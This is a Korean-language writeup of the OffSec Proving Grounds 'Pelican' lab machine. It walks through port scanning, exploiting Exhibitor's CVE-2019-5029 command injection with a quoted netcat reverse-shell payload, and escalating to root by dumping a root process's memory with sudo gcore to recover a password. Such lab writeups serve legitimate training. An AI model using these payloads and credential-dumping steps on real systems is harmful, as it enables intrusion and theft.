

---

title: "Proving grounds Practice: Pelican 문제풀이"

excerpt: "Offsec proving grounds practice linux machine writeup"

categories: pg_practice

tags:

- CTF

- Offsec labs

- OSCP

- Writeup

- Linux

- pg-practice

typora-root-url: ../../

date: 2025-08-29

last_modified_at: 2025-08-29

---
## Enumeration
### RustScan + Nmap
```bash
─$ rustscan -a 192.168.107.98
[ . . . ]

Open 192.168.107.98:22                                                         
Open 192.168.107.98:139                                                        
Open 192.168.107.98:445                                                                                                                                       
Open 192.168.107.98:631                                                                 
Open 192.168.107.98:2222                                                                
Open 192.168.107.98:2181
Open 192.168.107.98:8081                                                       
Open 192.168.107.98:8080                                                       
Open 192.168.107.98:39605    

---

─$ nmap -p 22,139,445,631,2222,2181,8081,8080,39605 -Pn -n --open -sV -sC 192.168.107.98 -oA nmapDetailed                                                    
[ . . . ]

PORT      STATE SERVICE     VERSION                                                                                                                           
22/tcp    open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)                                                                                       
445/tcp   open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)                                                                                    
631/tcp   open  ipp         CUPS 2.2                                                                                                                          
| http-methods:                                                                                                                                               
|_  Potentially risky methods: PUT                                                                                                                            
|_http-title: Forbidden - CUPS v2.2.10                                                                                                                        
|_http-server-header: CUPS/2.2 IPP/2.1                                                                                                                        
2181/tcp  open  zookeeper   Zookeeper 3.4.6-1569965 (Built on 02/20/2014)                                                                                     
2222/tcp  open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
8080/tcp  open  http        Jetty 1.0                                                                                                                         
|_http-server-header: Jetty(1.0)                                                                                                                              
|_http-title: Error 404 Not Found                                                                                                                             
8081/tcp  open  http        nginx 1.14.2                                                                                                                      
|_http-server-header: nginx/1.14.2                                                                                                                            
|_http-title: Did not follow redirect to http://192.168.107.98:8080/exhibitor/v1/ui/index.html                                                                
39605/tcp open  java-rmi    Java RMI                                                                                                                          
Service Info: Host: PELICAN; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### SMB
**enum4linux**
```powershell
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''

S-1-22-1-1000 Unix User\charles (Local User)

[+] Enumerating users using SID S-1-5-32 and logon username '', password ''

S-1-5-32-544 BUILTIN\Administrators (Local Group)
S-1-5-32-545 BUILTIN\Users (Local Group)
S-1-5-32-546 BUILTIN\Guests (Local Group)
S-1-5-32-547 BUILTIN\Power Users (Local Group)
S-1-5-32-548 BUILTIN\Account Operators (Local Group)
S-1-5-32-549 BUILTIN\Server Operators (Local Group)
S-1-5-32-550 BUILTIN\Print Operators (Local Group)
```

`charles` 유저 발견

### Port: 8080
(http://192.168.107.98:8080/) 접속해보면 `Exhibitor for ZooKeeper` 페이지가 나온다.

Google에 `Zookeeper 3.4.6 exploit`을 검색하면 해당 버전에서 사용할 수 있는 exploit이 존재한다.

## Vulnerability Analysis
### CVE-2019-5029
- 취약한 소프트웨어: Exhibitor Web UI 버전 1.0.9부터 1.7.1까지
- 취약점 유형: OS 명령어 주입 (Command Injection)
- 취약점 위치: Config Editor (설정 편집기) 내 입력값 처리 부문
- 위험 수준: 치명적 (CVSS 9.8)
- 취약점 내용:
  - 공격자가 백틱(\`)이나 \`$()\`로 감싼 임의의 쉘 명령어를 설정 편집기에 삽입할 수 있음
  - 이 명령어는 Exhibitor 프로세스가 ZooKeeper 실행 시에 실행됨
  - 공격자는 Exhibitor 프로세스 권한으로 임의의 명령을 실행 가능
  - 원격에서 인증 없이 공격 가능


## Exploitation
[Exploit-DB]https://www.exploit-db.com/exploits/48654

48654 exploit 내용
```javascript
The steps to exploit it from a web browser:

    Open the Exhibitor Web UI and click on the Config tab, then flip the Editing switch to ON

    In the “java.env script” field, enter any command surrounded by $() or ``, for example, for a simple reverse shell:

    $(/bin/nc -e /bin/sh 10.0.0.64 4444 &)
    Click Commit > All At Once > OK
    The command may take up to a minute to execute.
```
- exploit의 설명대로 진행했다.


**reverse shell upgrade**
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")' 
ctrl+z 
stty raw -echo; fg 
reset 
export SHELL=bash
export TERM=xterm-256color
```

## Privilege Escalation
```bash
charles@pelican:/opt/zookeeper$ sudo -l
Matching Defaults entries for charles on pelican:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User charles may run the following commands on pelican:
    (ALL) NOPASSWD: /usr/bin/gcore
```

[GTFObins - gcore](https://gtfobins.github.io/gtfobins/gcore/)

---

**What is gcore ?**
- `/usr/bin/gcore` : 실행 중인 프로세스의 코어 덤프를 생성하는 도구. 프로세스를 중단하지 않고 메모리 덤프 파일을 만들 수 있다.
  - `-a` : 프로세스의 모든 메모리 매핑(메모리 영역)을 포함해서 덤프를 생성
  - `-o /home/charles/output` : 덤프 파일의 이름 접두어(prefix)를 지정한다. 결과 파일은 `/home/charles/output.493`처럼 생성된다.

---
Post Enumeration
```bash
# SUID Sticky Bit 설정되어 있는 파일 찾기
charles@pelican:/opt/zookeeper$ find / -type f -perm -4000 2>/dev/null
[ . . . ]

/usr/bin/password-store

# root 유저로 실행되고 있는 프로세스 찾기
charles@pelican:/opt/zookeeper$ ps faux | grep -i root
root       513  0.0  0.0   2276   112 ?        Ss   Aug28   0:00 /usr/bin/password-store

# password-store PID 검색
charles@pelican:/opt/zookeeper$ pgrep password-store         
513
```

use gcore
```bash
# gcore 이용해서 메모리 매핑 덤프 생성
charles@pelican:~$ sudo -u root /usr/bin/gcore -a -o /home/charles/output 513
0x00007f971bd1c6f4 in __GI___nanosleep (requested_time=requested_time@entry=0x7ffc3d7a2c80, remaining=remaining@entry=0x7ffc3d7a2c80) at ../sysdeps/unix/sysv/
linux/nanosleep.c:28                                                                                                                                          
28      ../sysdeps/unix/sysv/linux/nanosleep.c: No such file or directory.                                                                                    
Saved corefile /home/charles/output.513                                                                                                                       
[Inferior 1 (process 513) detached]   
```
- `sudo -u root` : root 권한으로 명령을 실행한다는 의미.
- `/usr/bin/gcore` : 실행 중인 프로세스의 코어 덤프를 생성하는 도구. 프로세스를 중단하지 않고 메모리 덤프 파일을 만들 수 있다.
- `-a` : 프로세스의 모든 메모리 매핑(메모리 영역)을 포함해서 덤프를 생성한다.
- `-o /home/charles/output` : 덤프 파일의 이름 접두어(prefix)를 지정합니다. 결과 파일은 `/home/charles/output.513`처럼 생성된다.
- `513` : 덤프를 생성할 프로세스의 PID


```bash
# output 파일 읽기
charles@pelican:~$ strings output.513 
[ . . . ]

001 Password: root:
ClogKingpinInning731

# 획득한 패스워드로 root 유저 변경 
charles@pelican:~$ su -
Password: 
root@pelican:~# id
uid=0(root) gid=0(root) groups=0(root)
```
